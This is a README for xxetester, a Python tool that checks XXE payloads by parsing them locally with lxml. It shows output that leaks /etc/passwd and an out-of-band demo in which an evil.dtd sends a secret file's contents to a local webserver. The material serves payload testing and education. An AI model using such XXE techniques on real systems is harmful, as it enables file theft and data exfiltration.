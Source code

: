 xxetester
================

According to OWASP Top 10 of 2010, XXE vulnerabilities are one of the most common vulnerabilities in web applications. It is common to test an application for an XXE vulnerability without getting any feedback whether the exploit is successful. Especially with Blind XXEs it cannot be determined with certainty. The question then arises: Is my payload corrupt or the parser of the application actually secure? 

Since there are a lot of XXE articles and payloads on the internet and not every payload really leads to success, a tool had to be developed to test the validity of an XXE exploit.

The script parses the XML files on your system. Please be aware of this. DOS attacks like the billion laughs exploit will affect your own system.

How to use
-------------------------------
The script uses `lxml`. Various libraries were tested. Various libraries were tested. Among others `pulldom` also stood out as an interesting choice, because external general entities can be processed optionally. Unfortunately, `pulldom` had difficulties with out-of-band payloads, therefore we switched to `lxml`. To install it you can execute the following command on your shell.

```
# pip3 install lxml
```

To test a payload the following command can be executed.

```
# python3 xxetester.py samples/catalog.xml 
<CATALOG>
<CD>
[...]
<TITLE>Unchain my heart</TITLE>
<ARTIST>Joe Cocker</ARTIST>
<COUNTRY>USA</COUNTRY>
<COMPANY>EMI</COMPANY>
<PRICE>8.20</PRICE>
<YEAR>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
</YEAR>
</CD>
</CATALOG>
```

## Out-of-band XXE
Blind XXEs in particular are based on the fact that the application does not give the user any output at all. As an attacker you can only see if the application connects to your server. The `samples` folder contains an out-of-bands payload to read files from a system for testing purposes.


We simply execute the following commands to move the `secret` file into the `/tmp/` directory. This file represents the file that an attacker tries to access with the XXE. **Note that with the following payload we can only read files with a single line.** Then we change the directory to `samples`. In this directory is the `evil.dtd` file. This file will be loaded by the `oobxxe.xml` later on. Then we start a webserver on port 8090. 
```
# mv samples/secret /tmp/secret
# cd samples
# python3 -m http.server 8090
```
In a new terminal we execute the following command. 
```
# python3 xxetester.py samples/oobxxe.xml
StartTag: invalid element name, line 1, column 2 (127.0.0.1:8090?collect=1337SECRET1337, line 1)
If you wish more info execute this script with --verbose flag
```
With this command we can test the payload in `oobxxe.xml` which reads the `evil.dtd`. This .dtd file specifies the file that should be read and sent as an argument in a GET request. In our case `/tmp/secret` will be read and sent to our webserver.

Altough the script exits with an exception we see the following output on our webserver.
```
127.0.0.1 - - [05/Sep/2020 21:21:27] "GET /evil.dtd HTTP/1.0" 200 -
127.0.0.1 - - [05/Sep/2020 21:21:27] "GET /?collect=1337SECRET1337 HTTP/1.0" 200 -
```
With the first request the `evil.dtd` file is accessed. In the second GET request, the collect argument contains the contents of the `/tmp/secret` file.